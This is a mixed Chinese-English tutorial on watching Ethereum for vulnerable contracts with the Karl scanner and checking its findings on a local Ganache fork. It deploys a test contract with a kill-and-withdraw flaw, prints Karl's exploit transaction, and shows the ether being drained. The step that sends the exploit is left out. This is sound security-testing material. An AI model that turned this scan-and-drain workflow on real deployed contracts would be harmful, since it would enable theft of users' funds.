 用于检查安全漏洞的智能合约的监视器。
当监视以太坊区块链中的脆弱合同时，需要一种方法来确定我发现的漏洞是真实的还是仅仅是散布的误报和蜜罐。通过测试区块链虚拟副本中的漏洞，已经能够缓解这种可能性。
（_蜜罐_**_技术本质上时一种对攻击方进行欺骗的技术，通过布置一些作为诱饵的主机_**_。_）
### Virtual environment
A blockchain clone is useful because we could break the contract arbitrarily sending transactions to it. Remember[“I accidentally killed it”](https://github.com/paritytech/parity-ethereum/issues/6995)?
Another great reason to use a virtual environment is that once you send transactions to the blockchain, any other person watching it will know how to exploit it, and they may not be as diligent as you about[responsibly disclosing the vulnerability](https://en.wikipedia.org/wiki/Responsible_disclosure)to the creators of the application.
Even if you wanted to exploit the contract, you would still need to make sure the exploit works by testing it before carrying out the attack.
### 如何设置虚拟环境
[Ganache](https://truffleframework.com/ganache)是按需个人以太坊区块链，非常适合本地开发……和黑客入侵
与[Geth](https://github.com/ethereum/go-ethereum)或[Parity](https://github.com/paritytech/parity-ethereum)相比，Ganache易于设置，并且不[占用](https://github.com/ethereum/go-ethereum)大量资源。
只需2个命令即可安装和运行Ganache（如果已安装[Node.js](https://nodejs.org/)）
```markdown
$ npm install -g ganache-cli
$ ganache-cli
```
### 分叉主网
Ganache的一个鲜为人知的功能是**分叉**另一个区块链。可以将其视为**克隆现有的区块链**，但是不用担心，无需下载整个区块链！Ganache将立即启动，并且仅在需要时才查询真实的区块链，例如读取合同的代码和状态。
```markdown
$ ganache-cli -f https://mainnet.infura.io
```
并且，如果需要，可以将链分叉到特定的块，例如在块100进行分叉。
```markdown
$ ganache-cli -f https://mainnet.infura.io@100
```
这将提供一个可以安全使用的**区块链克隆**。它将创建一个本地实例，可以发送交易和部署新合同，运行漏洞利用程序并检查其有效性。所有这些都无需触及_真正的区块链_，也不会让其他人知道我们在做什么，也不会错误地自毁库。
## 测试
## 在以下示例中，我们将：

- 运行Karl并监视易受攻击的合同
- 找到脆弱的合同后分叉链
- 测试漏洞利用，看看我们是否偷走了一些以太币
### Karl
If you don’t know about Karl, go to the GitHub page and star the project. It helps you find vulnerable contracts on Ethereum.
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
_If you find any bugs or have any problems running Karl, please_[report an issue](https://github.com/cleanunicorn/karl/issues)_._
Karl is available as a[PyPI package](https://pypi.org/project/karl/), so you can just install it by running:
```markdown
$ pip install --user karl
```
然后与以太坊节点进行连接
![image.png](https://images.cherryfloris.eu.org/2021/1620577914716-939dcd9e-6afa-4bb5-9afe-974de021b920.png)
我们通常会将Karl指向主要的以太坊网络，并监视在那里部署的合同。现在改为监视本地测试链。我们还将在该测试链中使用Ganache。
我们启动一个私有Ganache实例。
```markdown
$ ganache-cli -d
```
![image.png](https://images.cherryfloris.eu.org/2021/1620577421256-28d9ff9d-f04c-41f3-8e15-8cdc99609612.png)此处要注意路径
启动Karl并监视新合同。（开启一个新的终端）
```markdown
$ karl --rpc localhost:8545
```
![image.png](https://images.cherryfloris.eu.org/2021/1620578203750-87fffb0d-ea37-48ae-a2f1-a02912fb8133.png)
在Ganache控制台中，我们将看到Karl轮询新块，等待部署新合同。
```markdown
Listening on 127.0.0.1:8545
eth_blockNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
...
```
![image.png](https://images.cherryfloris.eu.org/2021/1620578510474-ea4cf9dc-e5e4-4069-9a47-fba454df8639.png)
我们将自己部署一个易受攻击的合同。
该curl请求与1个ether一起部署了一个易受攻击的合同。
```markdown
curl -X POST -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": "0xaca94ef8bd5ffee41947b4585a84bda5a3d3da6e", "gas": "300000", "value": "0xde0b6b3a7640000",  "data": "0x608060405260c0806100126000396000f3fe6080604052348015600f57600080fd5b50600436106044577c01000000000000000000000000000000000000000000000000000000006000350463cbf0b0c081146049575b600080fd5b607960048036036020811015605d57600080fd5b503573ffffffffffffffffffffffffffffffffffffffff16607b565b005b8073ffffffffffffffffffffffffffffffffffffffff16fffea165627a7a72305820ddb174c0ae06fce4c792c57814a3c70d932e0ae31a6a3560c4ca0bb7be11bc370029"}]}' localhost:8545
```
Karl应该立即发现一个漏洞。
```markdown
POSSIBLE VULNERABILITY!
Initial balance = 100000000000000000000, final balance = 101999999999999985722

Type = VulnerabilityType.KILL_AND_WITHDRAW
Description = Looks line anyone can kill this contract and steal its balance.
Transactions = [{'from': '0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'to': '0x07a457d878BF363E0Bb5aa0B096092f941e19962', 'data': '0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'value': 0}]
```
![image.png](https://images.cherryfloris.eu.org/2021/1620578758703-580eb33d-fed6-4f58-b601-ae163ec41044.png)![image.png](https://images.cherryfloris.eu.org/2021/1620578612509-5eb1dd39-cf44-41eb-a78e-941e23b93714.png)
现在，我们可以分叉链并亲自检查漏洞。
### 分叉链
原始链位于http://localhost:8545，因为我们是在同一台机器上运行它，所以我们可以使用fork功能启动Ganache，并在其他端口上启动它。
```markdown
ganache-cli -f http://localhost:8545 -d -p 9545
```
![image.png](https://images.cherryfloris.eu.org/2021/1620578984106-7563895a-a48a-484d-acdb-6cb1555e26df.png)
每个标志说明：

- -f http://localhost:8545告诉Ganache叉什么链
- -d以确定性模式运行Ganache，每次都会生成相同的钱包；这很重要，因为我们可以复制粘贴curl命令，而无需更新部署合同的地址
- -p 9545设置要在其上运行的其他端口（我们的测试链已使用默认的8545）

一旦分叉启动并运行，我们就可以发送Karl报告的交易，看看我们是否成功偷走了合约的以太币。
首先检查将利用漏洞合同的地址的初始余额0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e。
```markdown
 curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545

{"id":1,"result":"0x56bc75e2d63100000"}
```
![image.png](https://images.cherryfloris.eu.org/2021/1620579328421-71c051af-c834-4f74-8c9d-2119b13f5173.png)
我们在结果中看到交易哈希成功的响应。
### 检查最终余额
最后要做的是获取帐户的最终余额。
```markdown
curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545

{"id":1,"result":"0x579a71129ec175000"}
```
![image.png](https://images.cherryfloris.eu.org/2021/1620579179963-9ddb898d-82c1-4a02-867c-69ea85601f35.png)
通过数学计算，我们发现差额几乎是1个以太币，即部署时在合约中发送的初始以太币，减去了利用时的交易费。
![image.png](https://images.cherryfloris.eu.org/2021/1620579395583-3b9563b6-77e7-4792-8e46-aa2239f38b09.png)
